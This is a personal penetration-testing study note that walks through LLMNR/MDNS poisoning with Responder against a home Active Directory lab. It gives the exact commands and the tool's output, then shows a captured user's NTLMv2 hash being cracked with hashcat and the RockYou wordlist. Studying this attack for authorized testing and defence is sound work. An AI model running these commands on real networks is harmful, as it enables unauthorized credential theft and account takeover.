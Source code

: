 
# Capturing Hashes with [Responder](/cybersecurity/tools/exploitation/responder.md)
Responder is a tool which can be used to perform [LLMNR poisoning](/PEH/active-directory/initial-vectors/LLMNR-poisoning.md) attacks on an [active directory](/computers/windows/active-directory/active-directory.md) domain. [LLMNR](/networking/protocols/LLMNR.md) is not the only protocol which responder can do a poisoning attack on. It can also be used against [NBT-NS](/networking/protocols/NBT-NS.md) and [MDNS](/networking/protocols/MDNS.md).
## Example Usage
Against our AD lab, we're going to use Responder to perform LLMNR poisoning. This will allow us to capture the hash sent for authentication from the victim machine. Once we have the hash, we can crack it to get the password for that machine.

With our AD lab up and active, we're going to use the following command with responder to attack the [domain controller](/computers/windows/active-directory/domain-controller.md)
```bash
responder -I eth0 -dwP
```
### Flags used:
- `-I/ --interface`: tells responder which network interface we want to use.
- `-d/ --DHCP`: tells responder to *also respond* to [DHCP](/networking/protocols/DHCP.md) broadcast requests.
- `-w/ --wpad`: starts a rogue [WPAD](/computers/windows/active-directory/WPAD.md) server (which will respond to hostname resolution requests)
- `-P/ --ProxyAuth`: tells Responder to force NTLM authentication (even if the target network doesn't have WPAD on)
- **OTHER**: `-v/ --verbose`: Will add hashes which you've already captured to the output.
With these flags on, and your attack box on the *same network* as the domain and domain computers, the output should look like this:
```bash
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.4]
    Responder IPv6             [fe80::a00:27ff:fed8:d39f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-06P8C35WKXO]
    Responder Domain Name      [SZWS.LOCAL]
    Responder DCE-RPC Port     [45001]

[+] Listening for events... 
```
Note that all of the poisoner and server types should be on. If you've used Responder before, and changed these, then change them back. Responder is now *listening to your `eth0` interface* for incoming packets related to the listed  protocols.
## Forcing Some Traffic
In a real pentest, you might not see any traffic until staff in the client organization actually login to their AD accounts. So, to force some traffic in our lab simulation, we can login to one of our regular domain VMs.
### Traffic From Powering Up Host
![](PNPT-pics/active-directory-9.png)
![](/PNPT-pics/active-directory-9.png)
This is the traffic I was able to capture simply by powering on one of my AD user boxes (haven't logged in as that user yet). This traffic tells us that an MDNS (multicast DNS) request to resolve the hostname *`TRASHCAN.local`*. Our rogue server *responded w/ a poisoned answer* (which was sent to our user box which we powered up).
### Searching for IP in filesystem
Now, if we go to the user VM's File Explorer and search for the IP *of our attacking machine* we get the following hash in Responder:
![](PNPT-pics/active-directory-10.png)
![](/PNPT-pics/active-directory-10.png)
This screenshot shows the hash our rogue server received when Dan Dumpster searched for our attacking IP address while logged in to a domain computer. Now that we have the hash (which is an DES-made hash) we can easily crack it to get Dan Dumpster's password.
## Cracking the Hash
To crack this hash, we're going to use [Hashcat](/cybersecurity/tools/cracking/hashcat.md). Hashcat is a cracking program which *ideally* uses GPU processing to crack hashes in many different formats. To crack this hash, we're going to specify a value of 5600 to the `-m` flag. This tells hashcat that we're cracking an [NTLMv2](networking/protocols/NTLM.md) hash.

To give hashcat the hash, copy and paste the entire hash into a file called `hashes.txt`. The hash includes the username and password, so everything from `ddumpster::LANDFILL:...` to `...00000000` at the very end (in my example).

Once that's saved in a file, the command we use w/ hashcat is as follows:
```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
We're also using the RockYou [wordlist](/cybersecurity/tools/scanning-enumeration/wordlists/seclists.md) which hashcat will use to generate hashes to try and match the one we're looking for. Even in a VM, this crack only takes hashcat about 16 seconds:
![](PNPT-pics/active-directory-11.png)
![](/PNPT-pics/active-directory-11.png)
Now we can log in as Dan Dumpster!

> [!Resources]
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)
